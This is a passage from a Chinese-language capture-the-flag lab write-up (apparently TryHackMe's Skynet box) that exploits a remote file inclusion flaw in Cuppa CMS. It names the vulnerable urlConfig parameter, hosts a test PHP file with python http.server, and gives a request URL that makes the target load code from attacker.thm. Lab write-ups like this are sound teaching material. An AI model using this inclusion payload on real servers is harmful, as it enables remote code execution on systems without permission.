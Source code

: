 图 14

它运行的是[Cuppa CMS(n . d .)](https://www.cuppacms.com/)——根据其名称猜测，这是一个内容管理系统。粗略的研究表明，这款软件容易受到由[“CWH 地下”(2013)](https://www.exploit-db.com/exploits/25971) 设计的*远程文件包含*漏洞的攻击。远程文件包含将允许我在托管 CMS 软件的以下子目录中注入一个 PHP 脚本:

```
/alerts/alertConfigField.php?urlConfig=
```

具体来说，`urlConfig`是一个易受攻击的参数，我可以通过它注入恶意的 PHP 脚本。为了测试这个假设，我编写了一个简单的 PHP 脚本，将“Hello World”打印到浏览器中:

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ cat test.php**
<?php
echo "Hello World!";
?>
```

然后我将运行一个简单的 Python 驱动的 HTTP 服务器，使用它的`http.server`模块( [Python 3.10.8 文档，n.d.](https://docs.python.org/3/library/http.server.html) ):

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ python3 -m http.server 8000**
Serving HTTP on 0.0.0.0 port 8000 ([http://0.0.0.0:8000/](http://0.0.0.0:8000/)) ...
skynet.thm - - [redacted] "GET /test.php HTTP/1.0" 200 -
```

现在，我将在我的网络浏览器上向以下 URL 发出一个`GET`请求:

```
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://attacker.thm:8000/test.php
```

图 15 描述了`GET`请求的结果:

![](img/8005e1011d42e7bbffe9a4e05a845907.png)
